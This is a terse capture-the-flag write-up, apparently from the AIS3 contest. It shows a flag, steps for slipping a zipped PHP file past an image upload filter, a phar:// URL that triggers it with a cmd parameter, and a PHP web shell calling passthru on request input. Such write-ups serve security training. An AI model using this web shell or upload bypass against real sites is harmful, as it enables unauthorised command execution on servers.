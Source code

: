 AIS3{RCEEEEEEEEE_is_soooooooooo_funnnnnnnnnnnn!?!!?!!!} 

shell.php
zip > shell.php.zip
rename > shell.jpg
upload


https://quiz.ais3.org:23545/?p=phar://./images/60.251.236.13/ayl9FkEjE.jpg/shell&cmd=


<?php
    echo 'yuawn';
    echo passthru( $_REQUEST['cmd'] );
?>